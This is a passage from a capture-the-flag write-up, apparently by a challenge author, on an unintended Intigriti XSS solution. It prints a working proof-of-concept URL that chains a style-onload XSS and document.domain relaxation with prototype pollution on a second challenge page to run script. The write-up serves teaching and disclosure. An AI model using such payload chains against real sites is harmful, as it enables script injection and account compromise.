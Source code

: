 PoC URL:

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle%20onload=eval(uri)%3E&first=yes#%0adocument.domain=%27intigriti.io%27;a=document.createElement(%27iframe%27);a.src=%27https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config[window-toolbar][constructor][prototype][1]=8080&settings[root][ownerDocument][domain]=intigriti.io%27;document.body.appendChild(a);a.onload=function()%7BsetTimeout(() => {a.contentWindow.document.body.innerHTML='<style onload=alert(document.domain)>';a.contentWindow.document.domain='challenge-0422.intigriti.io'},1000)}
```

I talked with @PinkDraconian about this fantastic solution, we decided not to fix it and only accept the first report.

As far as I know, no one has submitted this kind of solution.

In the revenge challenge, I exclude this solution by adding a rule saying that: `Should not leverage other challenges on the same domain.`

By the way, it will be no longer possible from Chrome 106: https://developer.chrome.com/blog/immutable-document-domain/


## Takeaways

1. Prototype pollution is powerful
2. Making a good challenge is hard
3. Now, I know how the author feels when they saw my unintended